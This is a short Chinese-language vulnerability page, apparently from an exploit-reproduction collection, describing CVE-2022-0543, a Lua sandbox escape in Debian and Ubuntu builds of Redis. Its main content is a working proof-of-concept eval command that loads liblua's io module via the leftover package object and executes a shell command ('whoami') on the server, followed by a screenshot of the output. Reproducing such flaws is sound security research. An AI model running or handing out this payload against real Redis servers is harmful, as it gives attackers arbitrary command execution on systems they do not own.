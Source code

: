 # Redis Lua 沙箱绕过 远程命令执行 CVE-2022-0543

## 漏洞描述

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

## 漏洞影响

Redis

## 漏洞复现

远程连接Redis, 执行POC

```javascript
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("whoami", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![img](../../../.vuepress/public/img/1647571045713-b47b4478-7425-402a-a8e3-4dd572c51270.png)